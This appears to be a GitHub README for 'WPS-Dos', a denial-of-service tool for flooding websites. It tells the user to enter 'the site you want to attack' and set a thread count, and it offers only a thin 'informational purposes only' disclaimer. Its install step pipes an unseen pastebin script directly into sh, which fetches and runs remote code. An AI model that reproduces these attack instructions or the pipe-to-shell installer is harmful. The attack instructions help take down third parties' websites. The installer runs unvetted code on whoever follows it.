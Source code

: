 # 🚀WPS-Dos🚀
***
## ❌Warning❌
1) ❌This utility based on the doser.py from https://github.com/Quitten/doser.py ❌
2) ❌The utility is provided for informational purposes only, I do not bear responsibility for how you will use it.❌
***
### ❓How to install it❓
1) apt install wget -y

2) ⬇Download installer script: `wget https://pastebin.com/raw/d6zhRUXN -O- | sh`

3) ⤵Change directory: `cd WPS-Dos`

4) 🔴Run the utility: `python3 wps-dos.py`

***
#### ❓How to use it❓

🟢 Everything is very easy, 
   1) Just enter the address of the site you want to attack for the template and press Enter
   2) Next, enter the number of threads, but keep in mind that one thread = one terminal window, so don't overdo it
   3) Thats all! If you want to stop the attack, or reduce the number of threads, just close the new terminal windows
***
# 🍀Thx for reading and good luck!
